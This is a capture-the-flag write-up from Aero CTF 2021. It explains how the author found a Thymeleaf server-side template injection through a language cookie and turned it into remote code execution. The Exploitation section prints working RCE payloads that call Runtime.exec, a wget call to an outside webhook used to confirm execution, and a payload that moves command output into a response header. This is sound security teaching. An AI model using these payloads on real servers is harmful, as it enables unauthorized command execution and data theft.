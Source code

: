 ## Aero CTF 2021
### Author: p4w @ [beerpwn](https://beerpwn.it)
### Twitter https://twitter.com/p4w16

## Challenge description (Web category)
![alt img](chall-desc.PNG)

## TL;DR
__Server Side Template Injection__ on __Thymeleaf__ template engine to gain __RCE__.

## Solution
### Discovery of the vuln
The challenge description says that the site is __available in english and russian__, this probably is written to point the attention to something involving the language.
Also the challenge description tell that the flag should be located at `/` on the file system, this make me think that it is necessary to gain at least an __arbitrary file read__ or __RCE__ to get the flag.
By inspection the site it is possible to notice that we can choose the language by clicking on a button.
As it is possible to notice that when the button is clicked (`onclick` event), then the `set_language(lang)` function will be executed.

![alt img](site.PNG)

![alt img](js.PNG)

The function simply set a cookie named __lang__ with the values __en__ or __ru__ and then reload the page.
Let's inspect the requests with burp-proxy.

![alt img](normal-req.PNG)

The first thing that I tried during the CTF, was to modify the cookie with some simple directory traversal payloads.

![alt img](dir_trav_3.PNG)

![alt img](dir_trav_1.PNG)

![alt img](dir_trav_2.PNG)

The directory traversal seems working, but if we try to include some arbitrary file (such as __/etc/passwd__) we got a __500 internal server error__. The error is verbose enough to show the server side exception: __org.thymeleaf.exceptions.TemplateInputException__ and
by googling this error, I come across to this template engine: [thymeleaf](https://www.thymeleaf.org/).

![alt img](thymeleaf.PNG)

The exception thrown seems to be related to loading the template, and that smells like __SSTI__ to me. So I start searching for __SSTI on Thymeleaf__ and I discovered a couple of related articles:
* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
* [https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)

### Exploitation
Reading these articles, we can see that it may be possible to do template injection in __Thymeleaf__ if _a template name or a fragment are concatenated with untrusted data_.
To get a better explanation and details I really council the readers to read the articles mentioned before.
The proposed payloads to gain __RCE__ are these:

* `__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("<cmd-here>").getInputStream()).next()}__::.x`
* `${T(java.lang.Runtime).getRuntime().exec('<cmd-here>')}`

At this point I simply tried one of these payloads into the __lang__ cookie with a command such as `wget <webhook-endpoint>` to verify the __command execution__
and it worked __:=)__.

![alt img](rce-poc-2.PNG)

Now I had __RCE__, since the flag was located at __/__, I needed some way to enumerate the file system contents and extract the flag. Problem was that it was not possible to use all the bash functionality such us `|, &, $, ...`. I also tried to extract or write files with `wget`, but no luck with that solution.
To summarize I had the ability to run commands, but no way to build a payload (__time based__ or __OOB__) that allow me to extract the output of an arbitrary command.
At this point I start to read the __thymeleaf__ [documentation](https://www.thymeleaf.org/doc/tutorials/3.0/usingthymeleaf.html) and some [Java-doc](https://docs.oracle.com/javaee/6/api/javax/servlet/http/HttpServletResponse.html) for Java objects, the basic idea that I had was to insert the output of the executed command directly into the __response__, for example by using a crafted HTTP header response with the output. After a bit of pain, I was able to build this payload: `__${#response.setHeader("cmd-out","test")}__::.x` and it worked __:)__!\
*[the above payload should work well on __Thymeleaf 3.0__, probably for __Thymeleaf 2.1__ could be: `__${#ctx.httpServletResponse.setHeader("cmd-out","test")}__::.x`]

![alt img](thymeleaf-doc.PNG)

![alt img](javadoc.PNG)

![alt img](set-header.png)

Now that we have the ability to modify the response, I simply played a bit with the Java-doc to build a payload that reads the output of the command and save it into the crafted header.
The final payload:
```
__${#response.setHeader(\"cmd-out\",#uris.escapeQueryParam(new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec(\"ls\").getInputStream())).lines().toArray()[0]))}__::.x
```
This payload will execute the `ls` command, read the first line, url-encode it and insert in the `cmd-header` of the HTTP response.

[Here](./x.py) you can download a simple python script that I made during the CTF to automate all of these steps and read all the lines of the executed command.

![alt img](script-run.PNG)

That's all folks, I think that was really an interesting challenge!\
Cheers, [p4w](https://twitter.com/p4w16) =)
